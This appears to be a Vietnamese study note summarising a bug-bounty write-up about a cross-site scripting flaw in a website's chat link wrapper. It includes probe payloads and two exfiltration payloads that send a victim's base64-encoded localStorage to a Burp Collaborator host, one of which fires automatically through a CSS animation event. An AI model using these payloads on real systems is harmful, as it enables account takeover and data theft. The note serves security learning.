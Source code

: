 
Sử dụng XSS để lấy thông tin nạn nhân

# Mô tả

Ứng dụng chat của website luôn gói link được gửi trong chat vào thẻ a 

Ví dụ bạn gõ https://google.com và nhấn gửi. Ứng dụng sẽ gói thành <a href= google.com>

Vấn đề ở đây là Ứng dụng không kiểm tra các kí tự được gói trong link. Payload kiểm tra là:

`https://google.com"'/>` chuyển thành `"target="_blank rel="noreferred" https://google.com`

Sau đó
`https://google.com"onclick="alert('1')"a="` Thành `<a href="https://google.com" onclick="alert(1)" a="">`

Như vậy ứng dụng đã mắc lỗi XSS và có thể bị khai thác

# Khai thác lỗi

## Lấy thông tin lưu trên local store

Payload
`https://google.com"onclick="b=JSON.stringify(localStorage);c=btoa(b);i=new/**/Image;i.src='https://burpcollaborator.burpcollaborator.net?t='+c"a="`

Nếu link được gửi đi và có user nhấp vào, thông tin được lưu trong localStore của họ sẽ bị gửi đến server C2 burp

Payload này chủ được nạp khi có user click vào.

## Làm thế nào để payload tự trigger mà không cần tác động của user
Payload có thể trigger nếu nó có thể inject vào một animation style tag. Tác giả đã tìm thấy một file css như vậy và tạo ra payload:

- payload đặt trong onanimation attribute
- Định nghĩa tag style  

`https://google.com"onanimationstart="b=JSON.stringify(localStorage);c=btoa(b);i=new/**/Image;i.src=’https://burpcollaborator.burpcollaborator.net?t='+c"style="animation-name:Toastify__bounceOutRight`

Khi link được gửi và user click vào, tag style load, sự kiện thực thi, và code tự động gửi thông tin về máy attacker.


### Source: 

1. [How I managed to trigger XSS automatically to get critical account takeover](https://c4rrilat0r.medium.com/how-i-managed-to-trigger-xss-automatically-to-get-critical-account-takeover-92ea3abcaf9)
2. [Cross-Site Scripting Cheat Sheet from Port Swigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)